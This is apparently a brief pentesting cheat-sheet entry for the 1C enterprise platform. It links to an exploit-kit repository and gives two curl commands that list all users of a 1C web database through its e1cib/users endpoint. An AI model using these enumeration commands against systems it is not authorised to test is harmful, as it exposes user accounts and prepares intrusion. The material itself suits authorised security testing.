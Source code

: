 # 1C

* [https://t.me/webpwn/280](https://t.me/webpwn/280)
* [https://github.com/KraudSecurity/1C-Exploit-Kit](https://github.com/KraudSecurity/1C-Exploit-Kit)

List all users if it's not disabled:

```text
$ curl https://<HOSTNAME>/<DB_NAME>/en_US/e1cib/users
$ curl https://<HOSTNAME>/<DB_NAME>/ru_RU/e1cib/users
```

